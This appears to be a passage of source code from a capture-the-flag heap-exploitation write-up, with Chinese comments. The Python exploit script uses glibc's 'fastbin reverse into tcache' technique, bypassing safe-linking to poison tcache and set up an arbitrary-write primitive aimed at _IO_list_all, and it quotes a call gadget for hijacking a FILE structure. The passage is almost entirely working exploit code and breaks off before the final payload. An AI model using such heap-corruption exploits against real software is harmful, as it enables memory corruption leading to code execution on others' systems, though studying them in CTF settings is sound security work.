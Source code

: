 ```python
#----------------------fastbin reverse into tcache---------------------------
##---------change tcache count-----------

dbg()
add(0)
add(1)
free(0)
free(1)
heap=heapbase+0x10
edit(1,p64(xor^heap))
add(0)
add(0)
edit(0,p64(0))

##------------full fastbin----------------
add(1)#change fd
add(2)#full fastbin
free(1)
#edit(0)相当于在edit counts数组
edit(0,p64(2))
edit(1,p64(xor^heapbase+0x90))
add(1)
add(1)
#edit(1)可以直接获取任意地址
#填满tcache
for i in range(7):
    edit(0,p64(0))
    add(2)
    edit(0,p64(i))
    free(2)
#注意途中不要破坏已经填满的tcache
edit(0,p64(0))
add(2)
edit(0,p64(7))
free(2)
edit(2,p64(xor^(io_list_all+0x70)))
#用tcache中的chunk填满fastbin
for i in range(6):
    add(2)
    edit(0,p64(7))
    free(2)
    edit(0,p64(6-i))

edit(0,p64(0))
#这一步没太懂???
edit(1,p64(io_list_all&gt;&gt;12))
#------------------触发fastbin reverse into tcache--------------------------
add(2)

def change(addr,context):
    edit(0,p64(1))
    edit(1,p64(addr))
    add(2)
    edit(2,context)

#此时stderr的0x68也就是chain被写入了heapbase+0x10
'''
.text:000000000014A0A0                 mov     rdx, [rdi+8]
.text:000000000014A0A4                 mov     [rsp+0C8h+var_C8], rax
.text:000000000014A0A8                 call    qword ptr [rdx+20h]
'''
length=0x230
start = heapbase + 0x600
```